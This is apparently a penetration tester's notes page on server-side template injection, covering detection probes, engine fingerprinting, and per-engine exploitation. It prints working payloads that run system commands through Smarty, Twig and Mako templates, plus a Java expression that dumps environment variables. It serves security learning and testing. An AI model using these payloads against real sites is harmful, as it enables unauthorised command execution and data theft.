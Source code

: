 # SSTI
 ## Detection
You can follow a similar approach when looking for template / expression language injections to the one you use when testing an application for stored XSS vulnerabilities - injecting a payload and looking for occurrences of it within the application

> If you are a user of Burp Suite Pro, you should get an extension named J2EE Scan which automatically adds tests for expression language injection

- Try  fuzzing Templating special charchters and see if any exception is raised 
	```
	${{<%[%'"}}%\
	```

- Try to check if it contains a direct XSS vulnerability. Try injecting arbitrary HTML.
	```
	http://vulnerable-website.com/?greeting=data.username<tag>
	```
	In the absence of XSS, this will usually either result in a blank entry in the output (just Hello with no username), encoded tags, or an error message. 
	
- Try and break out of the statement using common templating syntax and attempt to inject arbitrary HTML after it
	```
	http://vulnerable-website.com/?greeting=data.username}}<tag>
	```
if the output is rendered correctly, along with the arbitrary HTML, this is a key indication that a server-side template injection vulnerability is present:
	
## Identify Technology
To better identify the technology, you can first:
- Observe which is the generic technology of the application. If it is java (e.g., you see it uses .jsp extensions), then you can suspect it is an expression language / OGNL.
- Use this diagram as it contains popular behavior of template engines when handling expressions.
![[Pasted image 20210602032331.png]]
- Try to inject unclosed curly braces (be careful as there is a chance you might permanently disable the attacked webpage); this might provoke verbose error disclosing the underlying technology.
- Observe other verbose errors for technology names.
- If you suspect a specific technology, Check documentation for functions specific to that technology such as PHP Twig. Php Twig Can be confirmed by
```php
{{_self.env.display("xyz")}}
```

Another Methodology is:
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters. As a result, it can be relatively simple to create probing payloads to test which template engine is being used.

Simply submitting invalid syntax is often enough because the resulting error message will tell you exactly what the template engine is, and sometimes even which version.

For example, the invalid expression `<%=foobar%>` triggers the following response from the Ruby-based ERB engine:

```ruby
(erb):1:in `<main>': undefined local variable or method `foobar' for main:Object (NameError)
from /usr/lib/ruby/2.5.0/erb.rb:876:in `eval'
from /usr/lib/ruby/2.5.0/erb.rb:876:in `result'
from -e:4:in `<main>'
```


## Exploitation



## Exploiting Technology Specific SSTIs
### PHP
#### Smarty
```php
{php}echo `id`;{/php}
```

#### Twig
```php
{{_self.env.registerUndefinedFilterCallback("system")}}{{_s
elf.env.getFilter("whoami")}}
```

### Python
#### Maki
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```

#### Django
Explore the enviorment with
```python
{% debug %}
```

### Read about the security implications in documentation
In addition to providing the fundamentals of how to create and use templates, the documentation may also provide some sort of "Security" section. The name of this section will vary, but it will usually outline all the potentially dangerous things that people should avoid doing with the template. This can be an invaluable resource, even acting as a kind of cheat sheet for which behaviors you should look for during auditing, as well as how to exploit them.

Even if there is no dedicated "Security" section, if a particular built-in object or function can pose a security risk, there is almost always a warning of some kind in the documentation. The warning may not provide much detail, but at the very least it should flag this particular built-in as something to investigate.

### Explore enviroment objects
At this point, you might have already stumbled across a workable exploit using the documentation. If not, the next step is to explore the environment and try to discover all the objects to which you have access.

Many template engines expose a "self" or "environment" object of some kind, which acts like a namespace containing all objects, methods, and attributes that are supported by the template engine. If such an object exists, you can potentially use it to generate a list of objects that are in scope. For example, in Java-based templating languages, you can sometimes list all variables in the environment using the following injection:

```java
${T(java.lang.System).getenv()}
```

### Developer-supplied objects
Websites will contain both built-in objects provided by the template and custom, site-specific objects that have been supplied by the web developer. Pay particular attention to these non-standard objects because they are especially likely to contain sensitive information or exploitable methods. As these objects can vary between different templates within the same website, be aware that you might need to study an object's behavior in the context of each distinct template before you find a way to exploit it.
